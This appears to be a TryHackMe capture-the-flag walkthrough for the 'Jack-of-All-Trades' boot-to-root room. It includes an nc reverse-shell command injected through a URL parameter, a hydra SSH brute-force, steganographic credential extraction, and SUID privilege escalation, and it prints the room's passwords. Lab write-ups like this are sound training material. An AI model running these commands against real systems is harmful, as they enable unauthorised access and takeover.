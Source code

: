 # [Jack-of-All-Trades](https://tryhackme.com/room/jackofalltrades)

## Boot-to-root originally designed for Securi-Tay 2020

# Flags

## Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

### User Flag

1. Scan all ports with nmap to identify running services

```bash
nmap -sV IP
```

[SCREEN01]

2. Configure Firefox to access HTTP service on port 22
   - Navigate to `about:config` and set `network.security.ports.banned.override` to **22** as **string**

[SCREEN02]

3. Analyze the main page source code at `http://<IP>:22/`

   - Reference to `/recovery.php` endpoint
   - Base64 encoded string containing password
   - Decode the string in [CyberChef](https://gchq.github.io/CyberChef/)
   - **Password:** `u?WtKSraq`

4. Examine `http://<IP>:22/recovery.php` source code

   - Decode the string in [CyberChef](https://gchq.github.io/CyberChef/): From Base32 -> From Hex -> ROT13
   - Link to wikipedia page `bit.ly/2TvYQ2S`

5. Download images from `http://<IP>:22/` and analyze with steghide
   - **Extracted credentials:** `jackinthebox:TplFxiSHjY`

```bash
steghide extract -sf header.jpg
# Password: u?WtKSraq
```

6. Start netcat listener, log in to the `http://IP/recovery.php` and add `?cmd=nc -c bash 10.10.123.224 4444` at the end of the url

```bash
nc -lvnp 4444
```

[SCREEN03]

7. Establish stable shell, locate password list and save it to a file

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cd /home
cat jacks_password_list
```

[SCREEN04]

8. Attack SSH service running on port 80
   - The credentials are: **jack:ITMJpGGIqg1jn?>@**

```bash
hydra -l jack -P passwords.txt ssh://IP:80
```

[SCREEN05]

9. Log in as jack, download the image, and get the user flag from it

```bash
ssh -p 80 jack@IP
# Password: ITMJpGGIqg1jn?>@

```

```bash
scp -P 80 jack@IP:/home/jack/user.jpg /root/user.jpg
# Password: ITMJpGGIqg1jn?>@
```

[SCREEN06]

---

### Root Flag

1. Find SUID binaries to identify privilege escalation vectors

```bash
find / -perm -u=s -type f 2>/dev/null
```

[SCREEN07]

2. Exploit the SUID `strings` binary to read the root flag

```bash
strings /root/root.txt
```

[SCREEN08]
